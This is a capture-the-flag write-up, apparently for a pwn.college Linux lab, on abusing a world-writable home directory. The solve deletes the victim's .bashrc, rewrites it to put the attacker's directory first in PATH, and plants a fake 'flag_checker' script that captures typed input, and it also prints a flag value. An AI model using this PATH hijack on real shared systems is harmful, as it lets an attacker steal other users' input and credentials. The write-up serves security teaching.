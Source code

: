 ### New Learnings
How to sniff out an input from a victim user and how to use the export command to make a shell variable accessible to new programs and scripts. 

### Resources
https://youtu.be/wgVGZUTgix0?si=ZwHF1E39_xQWfgww

## Overshared Directories 
Alright, Zardus has wised up --- why would he have a writable .bashrc, anyways? But a more common scenario is that users on the same system, to make it easier to collaborate, will make their home directories world writable. What's the problem here?

The problem is that a subtlety of Linux file/directory permissions is that anyone with write access to a directory can move and delete files in it. For example, let's say that Zardus has a world-writable directory for collaboration:
```bash
zardus@dojo:~$ mkdir /tmp/collab
zardus@dojo:~$ chmod a+w /tmp/collab
zardus@dojo:~$ echo "do pwn.college" > /tmp/collab/todo-list
```
And then a hacker comes along and does the following, despite not owning the todo-list file!
```bash
hacker@dojo:~$ ls -l /tmp/collab/todo-list
-rw-r--r-- 1 zardus zardus 15 Jun  6 13:12 /tmp/collab/todo-list
hacker@dojo:~$ rm /tmp/collab/todo-list
rm: remove write-protected regular file '/tmp/collab/todo-list'? y
hacker@dojo:~$ echo "send hacker money" > /tmp/collab/todo-list
hacker@dojo:~$ ls -l /tmp/collab/todo-list
-rw-r--r-- 1 hacker hacker 18 Jun  6 13:12 /tmp/collab/todo-list
hacker@dojo:~$
```
This might seem counterintuitive: hacker has no write access to the todo-list but the end result is that they can change the content. But think about it this way: a file's connection to a directory lives in the directory in the end, and users with write access to that directory can mess with it. Of course, this has security implications when important directories are world-writable.

In this challenge, for convenience, Zardus opened up his home directory:
```bash
zardus@dojo:~$ chmod a+w /home/zardus
```
As you know, there are lots of sensitive files in that directory such as .bashrc! Can you replicate the previous attack with write access to /home/zardus instead of /home/zardus/.bashrc?

### Solve
**Flag: pwn.college{kEeoA6p9WaRMpy4oxp-mAEO7hlC.0FM0EzNxwyNwAzNzEzW}**

```bash
hacker@shenanigans~overshared-directories:~$ nano /home/hacker/flag_checker
  GNU nano 8.4                                          /home/hacker/flag_checker                                                       #!/bin/bash

  echo "Type the flag"
  cat
hacker@shenanigans~overshared-directories:~$ chmod +x /home/hacker/flag_checker
hacker@shenanigans~overshared-directories:~$ rm /home/zardus/.bashrc
rm: remove write-protected regular file '/home/zardus/.bashrc'? y
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
  GNU nano 8.4                                            /home/zardus/.bashrc                                                          #!/bin/bash

  export PATH="/home/hacker:$PATH"
hacker@shenanigans~overshared-directories:~$ /challenge/victim
Username: zardus
Password: ***********
```
